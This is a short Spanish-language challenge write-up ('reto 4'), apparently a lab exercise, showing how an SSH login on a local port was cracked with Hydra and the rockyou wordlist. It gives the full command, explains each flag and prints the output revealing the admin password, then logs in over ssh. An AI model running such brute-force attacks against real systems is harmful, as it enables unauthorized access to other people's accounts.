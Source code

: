 # Solucion para el reto 4

## Comando utilizado para la obtención de la contraseña para el usuario admim

```cs
hydra -s 2222 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 8 ssh://127.0.0.1 -v -f
```
![Comando de ataque](image.png)


- Hydra: Llamamos la herramienta de Hydra.
- -s: Definimos el número de puerto usado para el ejercicio, ejemplo **2222**.
- -l: Definimos el nombre del usuario para la conexión, ejemplo **admin**.
- -P: Definimos el diccionario de contraseñas a usar para el ataque, **/usr/share/wordlists/rockyou.txt**.
- -e nsr: Definimos como entrada la opcion de una contraseña vacia(**n**), el nombre de usuario como contraseña(**s**), el nombre de usuario con las letras invertidas(**r**).
- -t: Definimos el número de tareas en paralelo, ejemplo **8**.
- ssh: Definimos el protocolo victima, ejemplo **SSH**.
- IP: Definimos la IP de la victima, ejemplo **//127.0.0.1**.
- -v: Activamos el modo Verbose, para ver información detallada del ataque.
- -f: Termina el ataque cuando encuentre una contraseña valida.


## Resultado del comando


```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 21:04:04
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344402 login tries (l:1/p:14344402), ~1793051 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@127.0.0.1:2222
[INFO] Successful, password authentication is supported by ssh://127.0.0.1:2222
[STATUS] 88.00 tries/min, 88 tries in 00:01h, 14344314 to do in 2716:44h, 8 active
[STATUS] 82.67 tries/min, 248 tries in 00:03h, 14344154 to do in 2891:58h, 8 active
[2222][ssh] host: 127.0.0.1   login: admin   password: smokey
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 21:07:50
```
![Contraseña para admin](image-1.png)

## Conexión con el servicio SSH

Probamos la conectividad con las credenciales obtenidas

```cs
ssh admin@127.0.0.1 -p 2222 
```
![conexión exitosa](image-2.png)



